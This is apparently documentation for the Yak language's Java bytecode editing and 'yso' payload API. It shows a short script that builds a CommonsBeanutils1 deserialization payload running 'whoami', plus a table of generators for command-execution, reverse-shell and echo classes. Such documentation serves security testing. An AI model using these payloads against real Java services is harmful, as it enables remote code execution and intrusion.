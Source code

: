 通过对结构体属性的修改或通过结构体方法可以配置类结构的信息，再调用Byte方法可以重新生成字节数组，实现对class文件的修改，在上面的案例中，我们将/tmp/test.class文件解析为了结构化对象。下面的案例将会修改类名、java版本，并生成新class文件

```Go
classIns.SetClassName("newTest")
classIns.MajorVersion = 50
file.Save("/tmp/newTest.class", classIns.Bytes())
```

### 字节码生成

上面的案例中将修改后的class对象输出为bytes类型，除此外，还可以输出为bcel class，用于payload构造，或json格式字节码，可以用来查看class内部结构或对class信息修改。例如：

```Go
buildPayload(classIns.Bcel()) // 构造payload
dump(classIns.Json()) // 查看class内部结构
```

### 生成序列化数据

得益于java字节码修改的基础设施，可以在构造序列化payload时对class进行配置，如下是使用Yak脚本来生成CB1的payload，其中对class设置了版本为`52`、执行命令为`whoami`、class名为`djRiEemN`

```Go
version = 52
command = "whoami"
className = "djRiEemN"
gadgetObj = yso.GetCommonsBeanutils1JavaObject(
  yso.useRuntimeExecEvilClass(command),
  yso.evilClassName(className),
  yso.majorVersion(version)
)~
gadgetBytes = yso.ToBytes(gadgetObj)~
```

### Yak生成恶意字节码 API

当然，除了上述这个案例之外，Yak语言还支持单独生成恶意类字节码，用户可以使用`yso.Generate...`相关的API 来生成恶意字节码。

| 功能名称                                         | 描述                                        |
| ------------------------------------------------ | ------------------------------------------- |
| GenerateClassObjectFromBytes                     | 从字节码生成恶意类对象                      |
| GenerateRuntimeExecEvilClassObject               | 生成执行系统命令的恶意类对象                |
| GenerateProcessBuilderExecEvilClassObject        | 通过ProcessBuilder执行系统命令的恶意类对象  |
| GenerateProcessImplExecEvilClassObject           | 生成使用ProcessImpl执行系统命令的恶意类对象 |
| GenerateDNSlogEvilClassObject                    | 生成用于DNS记录的恶意类对象                 |
| GenerateSpringEchoEvilClassObject                | 生成Spring框架回显的恶意类对象              |
| GenerateModifyTomcatMaxHeaderSizeEvilClassObject | 修改Tomcat最大头部大小的恶意类对象          |
| GenerateTcpReverseEvilClassObject                | 生成TCP反向连接的恶意类对象                 |
| GenerateTcpReverseShellEvilClassObject           | 生成TCP反向Shell的恶意类对象                |
| GenerateTomcatEchoClassObject                    | 生成Tomcat回显的恶意类对象                  |
| GenerateMultiEchoClassObject                     | 生成多重回显的恶意类对象                    |
| GenerateHeaderEchoClassObject                    | 生成头部回显的恶意类对象                    |
| GenerateSleepClassObject                         | 生成使目标休眠的恶意类对象                  |
